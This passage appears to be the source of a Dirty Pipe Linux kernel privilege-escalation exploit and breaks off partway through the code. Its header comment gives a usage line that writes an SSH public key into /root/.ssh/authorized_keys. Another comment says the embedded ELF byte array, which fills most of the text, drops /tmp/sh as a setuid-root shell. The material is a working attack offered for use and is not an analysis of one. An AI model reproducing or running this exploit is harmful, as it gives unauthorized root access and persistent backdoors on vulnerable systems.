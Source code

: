 ```
 * to add a reference to this page to the pipe), and the write cannot
 * cross a page boundary.
 *
 * Example: ./write_anything /root/.ssh/authorized_keys 1 $'\nssh-ed25519 AAA......\n'
 *
 * Further explanation: https://dirtypipe.cm4all.com/
 */

#define _GNU_SOURCE
#include <unistd.h>
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/stat.h>
#include <sys/user.h>
#include <stdint.h>

#ifndef PAGE_SIZE
#define PAGE_SIZE 4096
#endif

// small (linux x86_64) ELF file matroshka doll that does;
//   fd = open("/tmp/sh", O_WRONLY | O_CREAT | O_TRUNC);
//   write(fd, elfcode, elfcode_len)
//   chmod("/tmp/sh", 04755)
//   close(fd);
//   exit(0);
//
// the dropped ELF simply does:
//   setuid(0);
//   setgid(0);
//   execve("/bin/sh", ["/bin/sh", NULL], [NULL]);
unsigned char elfcode[] = {
	/*0x7f,*/ 0x45, 0x4c, 0x46, 0x02, 0x01, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00,
	0x00, 0x00, 0x00, 0x00, 0x02, 0x00, 0x3e, 0x00, 0x01, 0x00, 0x00, 0x00,
	0x78, 0x00, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, 0x40, 0x00, 0x00, 0x00,
	0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
	0x00, 0x00, 0x00, 0x00, 0x40, 0x00, 0x38, 0x00, 0x01, 0x00, 0x00, 0x00,
	0x00, 0x00, 0x00, 0x00, 0x01, 0x00, 0x00, 0x00, 0x05, 0x00, 0x00, 0x00,
	0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x40, 0x00,
	0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00,
	0x97, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x97, 0x01, 0x00, 0x00,
	0x00, 0x00, 0x00, 0x00, 0x00, 0x10, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
	0x48, 0x8d, 0x3d, 0x56, 0x00, 0x00, 0x00, 0x48, 0xc7, 0xc6, 0x41, 0x02,
	0x00, 0x00, 0x48, 0xc7, 0xc0, 0x02, 0x00, 0x00, 0x00, 0x0f, 0x05, 0x48,
	0x89, 0xc7, 0x48, 0x8d, 0x35, 0x44, 0x00, 0x00, 0x00, 0x48, 0xc7, 0xc2,
	0xba, 0x00, 0x00, 0x00, 0x48, 0xc7, 0xc0, 0x01, 0x00, 0x00, 0x00, 0x0f,
	0x05, 0x48, 0xc7, 0xc0, 0x03, 0x00, 0x00, 0x00, 0x0f, 0x05, 0x48, 0x8d,
	0x3d, 0x1c, 0x00, 0x00, 0x00, 0x48, 0xc7, 0xc6, 0xed, 0x09, 0x00, 0x00,
	0x48, 0xc7, 0xc0, 0x5a, 0x00, 0x00, 0x00, 0x0f, 0x05, 0x48, 0x31, 0xff,
	0x48, 0xc7, 0xc0, 0x3c, 0x00, 0x00, 0x00, 0x0f, 0x05, 0x2f, 0x74, 0x6d,
	0x70, 0x2f, 0x73, 0x68, 0x00, 0x7f, 0x45, 0x4c, 0x46, 0x02, 0x01, 0x01,
	0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x02, 0x00, 0x3e,
	0x00, 0x01, 0x00, 0x00, 0x00, 0x78, 0x00, 0x40, 0x00, 0x00, 0x00, 0x00,
	0x00, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
	0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x40, 0x00, 0x38,
	0x00, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x01, 0x00, 0x00,
	0x00, 0x05, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
	0x00, 0x00, 0x00, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x40,
	0x00, 0x00, 0x00, 0x00, 0x00, 0xba, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
	0x00, 0xba, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x10, 0x00,
	0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x31, 0xff, 0x48, 0xc7, 0xc0, 0x69,
```